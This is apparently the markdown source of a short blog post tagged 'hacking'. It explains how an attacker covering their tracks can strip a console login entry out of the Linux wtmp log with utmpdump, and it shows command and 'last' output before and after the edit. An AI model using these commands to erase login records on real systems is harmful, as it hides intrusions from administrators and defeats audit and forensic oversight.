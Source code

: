```yaml
---
layout: post
title: Modify a line in wtmp - Linux Accounting
excerpt: "The /var/log/wtmp file in a Linux system contains data about past
user logins."
modified: 2016-03-12
tags: [hacking]
comments: false
category: blog
---
```


The **/var/log/wtmp** file in a Linux system contains data about past user
logins.  An attacker may want to modify this file as one of the steps they take
in covering their track.  One may also want to modify utmp or btmp as well.
This same technique can be used.

The wtmp log is a binary format and is owned by root:

```
root@ubuntu:/home/ken# ls -als /var/log/wtmp
12 -rw-rw-r-- 1 root utmp 9984 Feb 15 09:00 /var/log/wtmp
```

It can be viewed using the last command, as shown below:

```
root@ubuntu:/home/ken# last -f /var/log/wtmp
ken      pts/0        192.168.3.69     Wed Feb 15 09:00   still logged in
ken      pts/1        192.168.3.69     Fri Feb 10 11:41 - 11:47  (00:05)
ken      pts/0        192.168.3.69     Fri Feb 10 07:45 - 20:10  (12:25)
reboot   system boot  4.2.0-16-generic Thu Feb  9 08:33   still running
ken      pts/1        192.168.3.69     Mon Feb  6 10:23 - down  (2+09:49)
ken      pts/0        192.168.3.69     Mon Feb  6 10:15 - 18:59 (2+08:43)
ken      tty1                          Mon Feb  6 10:08 - 10:22  (00:14)
reboot   system boot  4.2.0-16-generic Mon Feb  6 10:07 - 20:13 (2+10:05)

wtmp begins Mon Feb  6 10:07:23 2017

```

The **utmpdump** works great for this and may be on the image by default.  In
this case, let's say we want to remove the entry that shows user ken logged in
from the console (tty1).  Here is how to do it:

```
utmpdump /var/log/wtmp | grep -v "tty1" > temp.txt
utmpdump -r &lt; temp.txt > /var/log/wtmp
rm -f temp.txt # Use 'shred' if it is installed
```

Now, let's take a look at the output again using the 'last' command:

```
root@ubuntu:/home/ken# last -f /var/log/wtmp
ken      pts/0        192.168.3.69     Wed Feb 15 09:00   still logged in
ken      pts/1        192.168.3.69     Fri Feb 10 11:41 - 11:47  (00:05)
ken      pts/0        192.168.3.69     Fri Feb 10 07:45 - 20:10  (12:25)
reboot   system boot  4.2.0-16-generic Thu Feb  9 08:33   still running
ken      pts/1        192.168.3.69     Mon Feb  6 10:23 - down  (2+09:49)
ken      pts/0        192.168.3.69     Mon Feb  6 10:15 - 18:59 (2+08:43)
reboot   system boot  4.2.0-16-generic Mon Feb  6 10:07 - 20:13 (2+10:05)

wtmp begins Mon Feb  6 10:07:23 2017

```

Note that the line is now missing.  Of course, the timestamp on wtmp has also
been updated, but that is a different issue:

```
root@ubuntu:/home/ken# ls -als /var/log/wtmp
8 -rw-rw-r-- 1 root utmp 5760 Feb 16 15:46 /var/log/wtmp
```
